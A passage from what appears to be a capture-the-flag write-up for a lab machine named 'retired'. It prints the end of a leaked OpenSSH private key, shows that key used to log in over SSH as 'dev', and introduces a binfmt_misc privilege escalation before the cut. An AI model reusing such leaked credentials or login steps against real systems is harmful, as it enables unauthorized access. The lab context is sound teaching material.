 ```bash
IoVRX0rnTtBUWeiduhdi2XbYh5OFFjh77tWCi9eTR7wopwUGR0u5sbDZYGPlOWNk22+Ncw
qQMIq0f4TBegkOUNV85gyEkIwifjgvfdw5FJ4zhoVbbevgo7IVz3gIYfDjktTF+n9dAAAA
wDyIzLbm4JWNgNhrc7Ey8wnDEUAQFrtdWMS/UyZY8lpwj0uVw8wdXiV8rFFPZezpyio9nr
xybImQU+QgCBdqQSavk4OJetk29fk7X7TWmKw5dwLuEDbJZo8X/MozmhgOR9nhMrBXR2g/
yJuCfKA0rcKby+3TSbl/uCk8hIPUDT+BNYyR5yBggI7+DKQBvHa8eTdvqGRnJ9jUnP6tfB
KCKW97HIfCpt5tzoKiJ7/eAuGEjjHN28GP1u4iVoD0udnUHQAAAMEA+RceJG5scCzciPd9
7zsHHTpQNhKQs13qfgQ9UGbyCit+eWzc/bplfm5ljfw+cFntZULdkhiFCIosHPLxmYe8r0
FZUzTqOeDCVK9AZjn8uy8VaFCWb4jvB+oZ3d+pjFKXIVWpl0ulnpOOoHHIoM7ghudXb0vF
L8+QpuPCuHrb2N9JVLxHrTyZh3+v9Pg/R6Za5RCCT36R+W6es8Exoc9itANuoLudiUtZif
84JIKNaGGi6HGdAqHaxBmEn7N/XDu7AAAAwQDuOLR38jHklS+pmYsXyLjOSPUlZI7EAGlC
xW5PH/X1MNBfBDyB+7qjFFx0tTsfVRboJvhiYtRbg/NgfBpnNH8LpswL0agdZyGw3Np4w8
aQSXt9vNnIW2hDwX9fIFGKaz58FYweCXzLwgRVGBfnpq2QSXB0iXtLCNkWbAS9DM3esjsA
1JCCYKFMrvXeeshyxnKmXix+3qeoh8TTQvr7ZathE5BQrYXvfRwZJQcgh8yv71pNT3Gpia
7rTyG3wbNka1sAAAALZGV2QHJldGlyZWQ=
-----END OPENSSH PRIVATE KEY-----
```

Leverage the SSH private key to log into the machine as `dev`.

```bash
$ chmod 0600 dev
$ ssh -i dev dev@10.129.128.109
The authenticity of host '10.129.128.109 (10.129.128.109)' can't be established.
ED25519 key fingerprint is SHA256:yJ9p3p5aZFrQR+J2qeIQ54gY9gQ7kcEbymYQBvP5PdY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.128.109' (ED25519) to the list of known hosts.
Linux retired 5.10.0-11-amd64 #1 SMP Debian 5.10.92-2 (2022-02-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Mar 28 11:34:33 2022 from 10.10.14.23
dev@retired:~$ ls -la ~/user.txt
-rw-r----- 1 dev dev 33 Apr 12 21:02 /home/dev/user.txt
```

---

## `/proc/sys/fs/binfmt_misc` Privilege Escalation

There is an interesting directory in `dev`'s home, `emuemu/`.

```bash
dev@retired:~$ ls -la ~/emuemu/
total 68
drwx------ 3 dev dev  4096 Mar 11 14:36 .
drwx------ 6 dev dev  4096 Mar 11 14:36 ..
-rw------- 1 dev dev   673 Oct 13 02:59 Makefile
-rw------- 1 dev dev   228 Oct 13 02:59 README.md
-rw------- 1 dev dev 16608 Oct 13 02:59 emuemu
-rw------- 1 dev dev   168 Oct 13 02:59 emuemu.c
-rw------- 1 dev dev 16864 Oct 13 02:59 reg_helper
-rw------- 1 dev dev   502 Oct 13 02:59 reg_helper.c
drwx------ 2 dev dev  4096 Mar 11 14:36 test
```
